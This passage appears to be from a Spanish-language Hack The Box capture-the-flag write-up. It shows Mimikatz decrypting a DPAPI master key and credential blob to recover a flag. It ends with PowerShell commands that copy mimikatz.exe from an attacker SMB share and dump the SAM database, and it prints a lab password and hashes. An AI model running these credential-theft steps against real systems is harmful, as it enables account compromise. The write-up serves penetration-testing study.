 ```bash
    pbKey            : 8b123f98402a3bc524367f6b00f918ccf767054a961fb96de8be049705d016c86db0323c769623a64140e782c8e85dd101530208d3d169a85b35fd65276689042bbf4ed4e3984171799d97a99ff2bf53f4603593a058f39da49d537041204e58f0dc808efc132085c9f703ae3c6a7aab

[credhist]
  **CREDHIST INFO**
    dwVersion        : 00000003 - 3
    guid             : {26b08a5f-4b2c-420d-9843-d05ea57cd32f}



[masterkey] with password: ./*40ra26AZ (normal user)
  key : e0b92cbfbeab126231d979377ffd236b2ebd4b0704e2e9229d3ce82bebd144173b9f7160315d5af62289fae50a1fd465100aaf36748b68557e2b05edc25ac4fe
  sha1: dacd0e1ccaa03abd1ccb22ce058815624739a607

mimikatz #
```

Al realizar este proceso, Mimikatz guardará la master key y la credencial DPAPI en caché.

```bash
mimikatz # dpapi::cache

CREDENTIALS cache
=================
SID:S-1-5-21-4124311166-4116374192-336467615-500;GUID:{26b08a5f-4b2c-420d-9843-d05ea57cd32f};MD4:de53e322ea95ac2723a2e3e149874aac;SHA1:7cb14ea6f0ed4e5ed9ac0a6a167f088eeec2e09b;  

MASTERKEYS cache
================
GUID:{87790867-a883-4a2d-a467-019c315e1104};KeyHash:dacd0e1ccaa03abd1ccb22ce058815624739a607

DOMAINKEYS cache
================

mimikatz #
```

Después simplemente podemos pasarle la primera de ambas credenciales DPAPI a Mimikatz para descifrarlas. Esta tiene como destino la flag y como contenido su valor.

```bash
mimikatz # dpapi::cred /in:1A2572C793495F694F64823A392D4718
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {87790867-a883-4a2d-a467-019c315e1104}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 70fb047908ba7943f6933f49a289e407b87d8432e85bbe45ad9b91cee513bc9c
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 9e73cba5176f1ba8bbd5a999eb9092e9371dfba4195d55d5e30b030e671206cb
  dwDataLen          : 000000c0 - 192
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>